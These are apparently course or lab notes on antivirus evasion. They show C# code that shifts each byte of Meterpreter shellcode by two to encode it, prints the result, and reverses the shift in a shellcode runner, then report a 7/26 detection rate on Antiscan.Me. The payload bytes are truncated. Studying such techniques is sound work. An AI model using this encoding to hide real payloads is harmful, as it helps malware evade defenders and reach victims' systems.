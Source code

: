 ## Ceaser Cypher
When we tried to use encryption with msfvenom, we took advantage of the highly secure and complex aes256 encryption algorithm, but implementing an aes256 decryption routine is not straightforward so we will opt for the much less secure, but easier-to-use [_Caesar Cipher_](http://practicalcryptography.com/ciphers/caesar-cipher/).

The first step is to create an application that can encrypt our shellcode. We'll create a new C# Console App project in Visual Studio called "Helper".

We'll generate Meterpreter shellcode, embed it in the C# code, and implement the encryption routine as follows:
```c#
namespace Helper
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[752] {
                0xfc,0x48,0x83,0xe4,0xf0...
                
            byte[] encoded = new byte[buf.Length];
            for(int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
```

We did a couple of things here:
1. we chose a substitution key of 2, iterated through each byte value in the shellcode, and simply added 2 to its value
2. We performed a bitwise AND operation with 0xFF to keep the modified value within the 0-255 range (single byte) in case the increased byte value exceeds 0xFF.

We now need to use this encrypted shellcode, which we can by printing it to console by converting the byte array into string with [_StringBuilder_] class and it's associated, [_AppendFormat_] method, as follows:
```C#
StringBuilder hex = new StringBuilder(encoded.Length * 2);
foreach(byte b in encoded)
{
    hex.AppendFormat("0x{0:x2}, ", b);
}

Console.WriteLine("The payload is: " + hex.ToString());
```

In this:
1. Each substring starts with 0x followed by the formatted byte value.
2. In the format string, we are specifying a two-digit number in hexadecimal format.
			- the first value of the format string (0:) specifies the first argument that is to be formatted, which is the byte value.
			- The second part (x2) is the format specification, in which "x" indicates hexadecimal output and "2" indicates the number of digits in the formatted result.

Compiling this and providing our shellcode as the argument for our executable, we are able to print a ceaser cypher encrypted shellcode:

![](../../../Screenshots/cc-enc-shellc.png)

We will now, go back to our shellcode runner, and start working on the decryption key.
Since the decryption sequence reverses the encryption sequence we'll use the substitution key of 2 and subtract instead.
This can be done as follows:
```C#
for(int i = 0; i < buf.Length; i++)
{
    buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
}
```

Using Antiscan.Me, we can see that only 7/26 antivirus products are able to detect our shellcode runner.
